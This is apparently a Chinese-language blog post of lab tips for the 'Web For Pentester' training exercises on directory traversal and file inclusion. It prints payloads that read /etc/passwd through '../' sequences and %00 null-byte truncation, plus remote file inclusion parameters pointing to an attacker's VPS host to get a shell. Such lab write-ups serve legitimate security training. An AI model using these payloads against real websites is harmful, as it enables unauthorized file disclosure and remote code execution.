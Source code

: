 ```yaml
---
layout:     post
title:      "Web For Pentester - Directory traversal & File Include Part Tips"
date:       2016-11-01
categories: [pentest, Training documents]

---
```




## Directory traversal Part 

### Example 1

最基础的目录穿越造成的任意文件读取，这里为相对路径，通过“../”可进行目录跳转

**file=/../../../../../../../../etc/passwd**

### Example 2

路径显示为网站物理路径，直接改为/etc/passwd不成功，通过../进行目录穿越

**file=/var/www/files/../../../etc/passwd**

### Example 3

这里可以看出文件名后缀被写死到了程序当中，使用%00进行截断

**file=../../../../../../../../../etc/passwd%00**

## File Include Part

### Example 1

使用单引号报错可以看到程序抛出了异常，这里爆出了网站物理路径，并在程序中使用include()函数，当然可以使用目录穿越去包含本地/etc/passwd文件，也可以使用远程文件包含去getshell

**page=/../../../../../../../../etc/passwd**

**page=http://vps地址/phpinfo.txt**

### Example 2

与Directory traversal Part中的Example 3类似，通过%00去截断

**page=/../../../../../../../../etc/passwd%00**

**page=http://vps地址/phpinfo.txt%00**

